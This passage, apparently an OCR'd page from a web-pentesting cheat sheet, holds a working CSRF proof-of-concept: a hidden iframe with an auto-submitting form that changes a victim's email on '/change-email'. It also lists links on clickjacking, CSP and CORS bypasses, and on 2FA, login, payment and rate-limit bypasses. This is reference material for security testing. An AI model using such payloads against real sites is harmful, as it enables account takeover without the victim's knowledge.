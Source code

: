 ##### Form POST request through iframe

```
<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style="display:none" name="csrfframe"></iframe> 
    <form action="/change-email" id="csrfform" target="csrfframe">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### Tools

- https://github.com/0xInfection/XSRFProbe

## HTTP Headers

Depending on the HTTP headers given by the web server some vulnerabilities might be present.

-  [Clickjacking](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/clickjacking.md)
-  [Content Security Policy bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/content-security-policy-csp-bypass.md)
-  [Cookies Hacking](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/hacking-with-cookies.md)
-  [CORS - Misconfigurations & Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cors-bypass.md)

## Bypasses

There are several specific functionalities were some workarounds might be useful to bypass them

-  [2FA/OPT Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/2fa-bypass.md)
-  [Bypass Payment Process](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/bypass-payment-process.md)
-  [Captcha Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/captcha-bypass.md)
-  [Login Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass)
-  [Race Condition](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/race-condition.md)
-  [Rate Limit Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/rate-limit-bypass.md)
-  [Reset Forgotten Password Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/reset-password.md)
-  [Registration Vulnerabilities](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/registration-vulnerabilities.md)
